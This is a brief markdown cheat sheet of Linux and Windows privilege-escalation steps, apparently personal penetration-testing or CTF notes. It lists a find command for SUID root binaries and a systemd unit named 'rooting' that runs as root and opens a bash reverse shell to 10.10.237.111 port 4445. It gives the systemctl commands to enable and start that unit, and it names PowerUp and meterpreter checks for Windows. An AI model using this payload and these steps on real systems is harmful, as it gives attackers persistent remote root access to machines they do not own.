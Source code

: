 # Linux PrivEsc
- `find / -user root -perm -4000 -exec ls -ldb {} \\;` Find files with suid for root user (File will be executed with )

```
[Unit]
Description=rooting

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.237.111/4445 0>&1'

[Install]
WantedBy=multi-user.target
```
- `systemctl enable /path/to/file.service` and `systemctl start /path/to/file.service`

windows file permissions
- `icacls`
- `load powershell` in meterpreter
- `. .\PowerUp.ps1`
- `invoke-allchecks`